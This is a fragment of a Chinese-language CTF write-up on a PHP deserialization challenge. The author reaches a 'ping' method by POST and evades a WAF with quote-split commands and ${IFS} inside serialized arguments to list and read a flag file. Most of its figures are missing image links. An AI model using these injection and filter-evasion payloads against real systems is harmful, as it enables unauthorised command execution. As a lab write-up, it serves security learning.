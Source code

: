 ```php
?>
```

![image-20240323132751269](D:\文档\ctf\assets\image-20240323132751269.png)

将结果进行尝试

![image-20240323132823307](D:\文档\ctf\assets\image-20240323132823307.png)

结果没反应

后来突然发现，应该是要用POST方法

![image-20240323132916058](D:\文档\ctf\assets\image-20240323132916058.png)

果然可以了，现在要做的就是绕过waf并查看flag

ls查看目录

```php
$args=array('l""s');
```

![image-20240323141657519](D:\文档\ctf\assets\image-20240323141657519.png)

查看flag_1s_here

```php
$args=array('ca""t${IFS}f""lag_1s_here');
```

![image-20240323141906135](D:\文档\ctf\assets\image-20240323141906135.png)

![image-20240323141958247](D:\文档\ctf\assets\image-20240323141958247.png)

没结果？这不是个文件吗？文件夹？

ls -l查看详细信息

**注意！**这两种得到的结果不一样

```
$args=array('l""s${IFS}-l');

$args=array("l''s${IFS}-l"); 
O:4:"ease":2:{s:12:"easemethod";s:4:"ping";s:10:"easeargs";a:1:{i:0;s:6:"l''s-l";}}//外边是双引号的时候${IFS}被当成了变量跳过了
```

```
使用$args=array('l""s${IFS}-l');查看
```

![image-20240323142615384](D:\文档\ctf\assets\image-20240323142615384.png)

![image-20240323142519871](D:\文档\ctf\assets\image-20240323142519871.png)
